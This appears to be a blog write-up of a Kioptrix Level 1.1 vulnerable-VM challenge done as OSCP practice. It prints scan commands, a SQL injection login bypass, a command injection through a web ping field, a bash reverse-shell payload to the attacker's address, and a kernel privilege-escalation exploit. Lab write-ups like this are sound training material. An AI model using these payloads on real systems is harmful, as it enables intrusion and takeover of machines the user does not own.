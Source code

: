 ```yaml
---
title: "Kioptrix Level 1.1 (#2)"
date: 2017-02-25 12:52:16 +0000
comments: true
categories: challenges
tags: challenges
---
```


So im adding all the writeups I did leading up to OSCP following on with Kioptrix level 2.

**Name:** Kioptrix: Level 1.1 (#2)

**Date release:** 11 Feb 2011

**Author:** Kioptrix

**Series:** Kioptrix

**Web page:**[http://www.kioptrix.com/blog/?page_id=135 ](http://www.kioptrix.com/blog/?page_id=135)

**Vulnhub:** [https://www.vulnhub.com/entry/kioptrix-level-11-2,23/](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

**Description:**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
This is the second release of #2. First release had a bug in it with the web application



<!-- more -->

## Host Discovery

`arp-scan -l`

## Port Scanning

### TCP

`nmap -F -sS 192.168.0.18`

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/1.png)

I also ran a more indepth scan 

`nmap -sS -A -sC -p0- -oA nmap_tcp_full_sCA_192.168.0.18 192.168.0.18`

### UDP

I decided to use nmap to run a scan of full UDP ports playing with the timing switches

`nmap --min-parallelism 100 --min-rtt-timeout 26ms --max-rtt-timeout 160ms --max-retries 2 --max-scan-delay 0 --min-rate 1000 -p0- -sU -oA nmap_udp_full 192.168.0.18`


```bash
PORT    STATE SERVICE
111/udp open  rpcbind
```

## Service Enumeration

### 80 - http

### 443 - https

http://192.168.0.18/ - a login page

`nikto -h 192.168.0.18`

```bash
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.!
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/assets/images/: Directory indexing found.![]
+  /icons/README: Apache default file found.![]
+ Server: Apache/2.0.52 (CentOS)
```

### 3306 - mysql

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/2.png)

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/3.png)

## Exploitation

So it looks like we need to try and get past the login page.

At this point i decided to start fuzzing the login page to try and find an injection flaw. I was able to successfully login using the value below in the username and password fields.

`' or 1=1--`

Using SQL injection to supply a truestatement in the username and password fields logged us in sucessfully :D

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/4.png)

We get a simple web based ping tool

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/5.png)

The ping tool works 

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/6.png)

It seems like the OS ping command is being used to carry out this task. 

Looks like we can abuse this feild to get code execution.

`127.0.0.1; whoami` 

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/7.png)

Lets try get a shell :P

netcat listener is setup on the attacking kali machine (192.168.0.21).

`nc -nlvp 4444`

Now we inject our payload

`127.0.0.1; bash -i >& /dev/tcp/192.168.0.21/4444 0>&1`

Boom! we get a shell but its as a low privileged user apache

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/8.png)

## Privilege Esculation

we are in but its not good enoughh want root!

using g0m1lks privilege escalation guide we start to look for a way to escalate


[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/9.png)

I noticed the target is running a vulnerable Linux kernel

**searchsploit** was used to find a priv esc exploit

**Exploit Used:** [https://www.exploit-db.com/exploits/9542/](https://www.exploit-db.com/exploits/9542/)

The exploit was downloaded and transferred over to the target using wget

compiled using gcc on the target

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/10.png)

Time to execute

![alt text]({{ site.baseurl }}/assets/images/kioptrix2/11.png)

got root :P